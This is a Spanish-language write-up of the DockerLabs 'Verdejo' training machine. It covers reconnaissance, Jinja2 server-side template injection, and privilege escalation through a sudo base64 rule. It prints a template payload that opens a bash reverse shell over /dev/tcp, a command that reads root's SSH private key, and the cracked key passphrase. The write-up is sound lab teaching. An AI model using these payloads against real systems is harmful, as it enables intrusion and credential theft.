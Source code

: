 ```yaml
---
title: "DockerLabs - Verdejo"
description: "SSTI (Server Side Template Injection) SUID Privesc /usr/bin/base64"
date: "2024-10-25"
tags:
  - DockerLabs
  - SSTI
  - Jinja2
  - Reverse Shell
  - SSH
  - SSH2John
  - JohnTheRipper
  - SUID Privesc
  - Linux
---
```



## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**

![Verdejo Yw4rf](verdejo-1.png)

## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.

![Verdejo Yw4rf](verdejo-2.png)

Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Verdejo Yw4rf](verdejo-3.png)

## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.

![Verdejo Yw4rf](verdejo-4.png)

Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.

![Verdejo Yw4rf](verdejo-5.png)

Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 

![Verdejo Yw4rf](verdejo-6.png)

Como vemos nos índica que es accesible y al ingresar notamos un formulario.

![Verdejo Yw4rf](verdejo-7.png)

Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**

![Verdejo Yw4rf](verdejo-8.png)

Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 

![Verdejo Yw4rf](verdejo-9.png)

Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 

![Verdejo Yw4rf](verdejo-10.png)

Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**

![Verdejo Yw4rf](verdejo-11.png)

Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**

![Verdejo Yw4rf](verdejo-12.png)

## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**

![Verdejo Yw4rf](verdejo-13.png)

Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 

![Verdejo Yw4rf](verdejo-14.png)

Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 

![Verdejo Yw4rf](verdejo-15.png)

Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~

![Verdejo Yw4rf](verdejo-16.png)

Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**

![Verdejo Yw4rf](verdejo-17.png)

Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.

![Verdejo Yw4rf](verdejo-18.png)

![Verdejo Yw4rf](verdejo-19.png)

## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64

![Verdejo Yw4rf](verdejo-20.png)

Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 

![Verdejo Yw4rf](verdejo-21.png)

- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~

![Verdejo Yw4rf](verdejo-22.png)

Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 

![Verdejo Yw4rf](verdejo-23.png)

Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.

![Verdejo Yw4rf](verdejo-24.png)

Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**

![Verdejo Yw4rf](verdejo-25.png)

Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**

![Verdejo Yw4rf](verdejo-26.png)

Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 

![Verdejo Yw4rf](verdejo-27.png)

Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>